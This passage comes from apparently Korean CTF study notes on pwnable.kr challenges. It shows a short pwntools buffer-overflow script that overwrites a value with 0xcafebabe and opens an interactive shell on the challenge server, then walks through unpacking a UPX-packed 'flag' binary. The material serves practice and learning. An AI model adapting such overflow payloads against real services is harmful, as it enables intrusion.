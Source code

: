    ```Python
   from pwn import *

   payload = 'A' * 52 + '\xbe\xba\xfe\xca'
   shell = remote('pwnable.kr',9000)
   shell.send(payload)
   shell.interactive()
   ```
   - 상기와 같이 공격하는 방법도 존재함.<br/>

4. https://icmp-ycdi.tistory.com/51

    - Papa brought me a packed present! let's open it.
    - Download : http://pwnable.kr/bin/flag
    - This is reversing task. all you need is binary
    - 리버싱 문제
    - wget http://pwnable.kr/bin/flag
    - I will malloc() and strcpy the flag there. take it.
    - 3번과 유사한 문제로 추정하여 gdb로 disas 시도
    - Reading symbols from flag...
      (No debugging symbols found in flag) -> 일반 c 파일이 아닌것으로 보임
    - 다른 풀이들을 보니 Packing(압축, 암호화)된 파일로써 Unpacking을 수행해야 한다고 함.
    - Packing 여부는 아래와 같이 Ghidra와 같은 툴이나 ExeInfo와 같은 툴로 확인 할 수 있다.
    - Ghidra<br/>
    ![Ghidra](Image/Q4/UPX.png)
    - ExeInfo : https://github.com/ExeinfoASL/ASL<br/>
    ![ExeInfo](Image/Q4/Unpacking.png)
    - UPX로 Packing 되었다는 것을 확인했으니 Upx 패키지를 설치하여 Unpacking을 시도한다. (Parrot OS에는 내장되어 있음.)
    - upx -d ./flag
    ![upx](Image/Q4/UPX_Unpack.png)
